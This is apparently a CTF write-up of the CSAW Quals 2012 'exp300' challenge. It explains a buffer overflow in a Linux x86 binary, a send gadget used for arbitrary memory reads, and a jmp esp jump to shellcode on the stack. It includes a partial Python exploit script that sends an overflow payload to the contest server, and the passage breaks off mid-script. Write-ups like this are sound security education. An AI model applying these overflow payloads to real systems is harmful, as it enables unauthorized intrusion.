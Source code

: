 ```yaml
---
title: CSAW Quals 2012 – exp300
author: awreece
layout: post
permalink: /?p=968
categories:
  - CTF
  - Write-Ups
---
```

### Overview

[聊天][1] is an Linux x86 binary that uses signal handlers to print a bunch of Chinese before overflowing a buffer. With a send gadget giving us an arbitrary read, we can find a <tt>jmp esp</tt> in libc and jump to our shellcode on the (executable) stack.



### Writeup

We reverse the binary, and see that main forks, drops privileges, and then raises signals until eventually the function below is called.

[<img src="http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/10/Screen-Shot-2012-10-01-at-2.10.27-PM.png" alt="Vulnerable Function" title="Vulnerable function" style="width:100%;" class="size-full wp-image-970" />][2] 

We have a buffer overflow and hence control of <tt>eip</tt>, but unfortunately nothing else. Luckily, there is a call to <tt>send</tt> elsewhere in the code (that also loads the correct <tt>fd</tt>, etc for us).

[<img src="http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/10/Screen-Shot-2012-10-01-at-2.32.23-PM.png" alt="Send gadget" title="Send gadget" style="width:100%;" class="size-full wp-image-974" />][3] 

This works for us, since <tt>edx = 0x800</tt> at the return of our vulnerable function. We thus have a way to read <tt>0x800</tt> bytes from an arbitrary memory address

<pre>#!/usr/bin/python                                                               
import struct                                                                   
import socket                                                                   
import telnetlib                                                                
import sys                                                                      
import string

def read_mem(addr):                                                                
        print "Sleeping before reading %x" % addr                                  
        time.sleep(.5)                                                             
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)                      
        s.connect(('128.238.66.218', 4842))                                        
        # s.connect(('127.0.0.1', 4842))                                           
        f = s.makefile('rw', bufsize=0)                                            
                                                                                   
        send_buf = 0x804890e                                                       
                                                                                   
        payload = (                                                                
                "A"*326 +                                                          
                struct.pack('I', send_buf) +                                       
                "AAAA"*11 +                                                        
                struct.pack('I', addr) +                                           
                "BBBB"                                                             
        )                                                                          
                                                                                   

 [1]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/10/exp300.tar.gz
 [2]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/10/Screen-Shot-2012-10-01-at-2.10.27-PM.png
 [3]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/10/Screen-Shot-2012-10-01-at-2.32.23-PM.png